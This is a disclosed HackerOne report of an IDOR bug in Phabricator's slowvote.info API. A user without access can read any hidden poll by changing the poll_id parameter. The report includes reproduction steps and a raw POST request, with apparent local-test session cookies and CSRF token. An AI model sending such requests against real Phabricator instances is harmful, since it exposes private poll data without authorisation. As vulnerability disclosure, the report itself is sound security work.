 # IDOR bug to See hidden slowvote of any user even when you dont have access right

## Report Details
- **Report ID**: 661978
- **URL**: https://hackerone.com/reports/661978
- **State**: Closed
- **Severity**: N/A
- **Submitted**: 2019-07-27T19:16:59.210Z
- **Disclosed**: 2019-08-29T19:00:51.889Z

## Reporter
- **Username**: ranjit_p
- **Name**: N/A

## Team
- **Name**: N/A
- **Handle**: phabricator

## Vulnerability Information
USER ACCOUNT
=============
1. user A (who create slowvote)
2. User B (Dont have permissioon to see above slowvote)
3. User C (has permission to see above slowvote)

STEP TO REPRODUCE
==================
1. From user A account goto http://phabricator.localhost.com/vote/create/ and create a slowvote .
   Change this slowvote "Visible To" to "No one" or to user C .
  Slowvote url will be now like http://phabricator.localhost.com/V1 .

2. Now user B visit above slowvote url http://phabricator.localhost.com/V1 and see that he dont have access permission .
Now user B sent bellow request and can see any hidden slowvote 

```
POST /api/slowvote.info HTTP/1.1
Host: phabricator.localhost.com
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:68.0) Gecko/20100101 Firefox/68.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 83
Connection: close
Cookie: phsid=smpm4rp6yltbzna3qda2nwbomsoidzwjfshkkw7v; phusr=admin
Upgrade-Insecure-Requests: 1

__csrf__=B%40wmnrkyq3468c99179280354c&__form__=1&params%5Bpoll_id%5D=1&output=human
```
here just change poll_id parameter value to your target poll id and see that hidden poll

## Impact

Fix this

## Attachments
No attachments
